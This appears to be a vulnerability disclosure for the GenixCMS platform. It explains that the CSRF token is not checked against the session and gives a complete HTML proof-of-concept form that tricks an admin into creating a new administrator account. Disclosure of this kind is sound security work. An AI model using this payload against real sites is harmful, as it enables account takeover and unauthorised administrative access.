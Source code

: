 The GenixCMS platform is vulnerable to an exploit that allows a low privileged user to create an admin account by getting an admin
to visit a crafted page.

This differs from : CVE-2015-2680 because in an attempt to mitigate the CSRF vulnerability the developer added a "token" value to the request. But because the token value is not checked in tandem with the session data, you can provide ANY valid token and still get the request to be accepted.

Vulnerable request POC:

````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://HOSTNAME/genix/gxadmin/index.php?page=users" method="POST">

      <input type="hidden" name="userid" value="admin2" />

      <input type="hidden" name="pass1" value="admin2" />

      <input type="hidden" name="pass2" value="admin2" />

      <input type="hidden" name="email" value="admin3&#64;test&#46;com" />

      <input type="hidden" name="group" value="0" />

      <input type="hidden" name="adduser" value="" />

      <input type="hidden" name="token" value="INSERTLOWPRIVTOKENHERE" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>


````
